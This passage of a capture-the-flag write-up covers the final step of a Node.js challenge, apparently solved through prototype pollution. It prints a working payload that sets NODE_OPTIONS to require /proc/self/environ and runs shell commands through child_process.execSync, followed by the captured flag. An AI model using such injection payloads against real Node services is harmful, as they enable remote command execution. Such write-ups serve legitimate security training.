 After some debugging, i found out that somehow `read` is not taking the output of `./guard`.
I still don't know why.
So i had to change `read` with something equivalent.
I thought let's try reading directly from `/dev/stdin`

```bash
cat /tmp/pipe | /guard | (l=$(head -c 24 /dev/stdin); echo $((l)) > /tmp/pipe;cat)
```

**Note:** I'm using `head -c 24` to take exactly the amount of characters i need, without the `=` symbol

Let's try this time:

```JavaScript

{
    "value":{
        "aaaa":"console.log(require('child_process').execSync('cat /tmp/pipe | /guard | (l=$(head -c 24 /dev/stdin); echo $((l)) > /tmp/pipe;cat)').toString());//",
        "NODE_OPTIONS":"--require /proc/self/environ"
    }
}
```

![final_flag](images/of_12.png)

**Flag:** `ALLES{Gr3ta_w0uld_h4te_th1s_p0lluted_sh3ll}`

<a name="pyjail_atricks"/>
# Pyjail_ATricks

**Description**
